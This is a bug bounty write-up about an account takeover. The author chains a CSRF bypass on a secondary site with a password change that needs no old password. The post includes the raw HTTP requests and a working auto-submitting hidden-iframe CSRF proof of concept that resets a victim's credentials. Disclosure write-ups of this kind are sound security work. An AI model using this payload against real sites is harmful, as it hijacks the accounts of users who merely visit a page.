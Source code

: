 ```yaml
---
layout: post
title: Account takeover chaining CSRF and weak password reset policy
subtitle: 
tags: [write-up, CSRF, high, takeaways, $swag]
comments: false
published: true
---
```


### Background

**A Cross-site request forgery**  is an attack that forces a user to execute unwanted actions on a website on which they are authenticated. In short, a request to update user password on [https://example.com](https://example.com) could be triggered if they visit [https://evil.com](https://evil.com) **IF** the former doesn't have any CSRF protections in place. 

A CSRF protection can consist of a randomly generated value included in the HTML page that is sent with the request and checked by the server to validate the request.


### Description

This program is made of a main application and multiple secondary applications to which you can connect independantly **OR** using oauth with the main application.

I first started to look for CSRF bypass in updating account request from the main application:

```
PUT /user/edit HTTP/1.1
Host: main.redacted.com

name=nkx&city=Paris&country=FR&twitter=NkxxkN&token=5MzcxNOMWresc09mzduKfAOYFiLnj0LdzB9SsPZfc3sfAk7tI629&password_old=old_password&password_new=new_password
```

I tried to:
  -  Remove `password_old=old_password` to see if the password could be changed without knowledge of the current password. That didn't work.
  - Remove the CSRF token from the request => `403 Forbidden`.
  - Leave the CSRF token fempty rom the request => `403 Forbidden`.
  - Set the CSRF token to true => `403 Forbidden`.
  - Use another user's CSRF token => `403 Forbidden`.

That was a dead end. Time to move on.

I signed up for one of the secondary websites. The technologies used here looked very similar to the ones from the main site. I tried updating my profile:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=nkx&city=Paris&country=FR&token=MEd4NzQ5Mzk3OQkB4m18_vv580eH3opIhalOOqg_Vv
```

Removing the token resulted in `200 OK` which means that CSRF attack is possible.

Now, it seemed that I could only change personal informations.
I went back to the first request and realised both requests were identical except that the second one was missing few arguments. The ones I was interested in where `old_password` and `new_password`.

Adding those arguments resulted in resetting the password:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=nkx&city=Paris&country=FR&password_old=old_password&password_new=new_password
```

Now I have a CSRF bypass to update user profile but I need to know the user password. Actually what happens if I remove `old_password`? 

Strangely enough, that worked. I had achieved a full account takeover **on the main domain** chaining a CSRF protection bypass with a weak password reset method.

The last issue is that even though I was able to reset someone's password, I had no notification of this happening. I needed a way to know if a user was tricked.

Fortunately, this request also allowed me to update the username which was reflected as a slug by going to publicly available user profile page: `https://main.redacted.com/profile/nkx`.


Final request:

```
PUT /user/edit HTTP/1.1
Host: secondary.redacted.com

username=hacked-user&city=Paris&country=FR&password_new=account_takeover
```

After a victim visit on the malicious website, I can visit `https://main.redacted.com/profile/hacked-user` to verify that the attack worked and use the new username/password combination to login.

### Proof of concept:

Burp Suite provides a one-click proof of concept generator but I usually do not use it.
I like to provide the following proof of concept in my CSRF reports adapted from [Portswigger web security labs](https://portswigger.net/web-security/cors):

```html
<iframe hidden sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html, <body>
        <form id="csrf_form" action="https://www.secondary.premium.com/user/edit" 
method="POST">
      <input type="submit" value="Submit request" />
      <input type="hidden" name="username" value="hacked-user" />
      <input type="hidden" name="password_new" value="account_takeover" />
    </form>
    </body>
    <script>
        document.getElementById("csrf_form").submit()
    </script>'>
</iframe>
```

This proof of concept doesn't require any user interaction except for visiting the malicious website which is a nice trick to enhance chances of the vulnerability being taken seriously by the triage team. Even if it might be obvious to you that this could be done without user interaction, it might not be for triagers.

### Takeaways

  - Identify, update, remove CSRF token on every requests performing sensitive user data changes.

  - This fairly simple vulnerability arise only on the paid version of this program. After you got your first bounty, never hesitate to spend a couple dollars to access 

  - Always go the extra mile to make your attack scenario more plausible to maximize the chances of a successful triage.

### Summary

 - **Weakness**:
    - CSRF
    - Weak password reset policy
 - **Reward**: Swag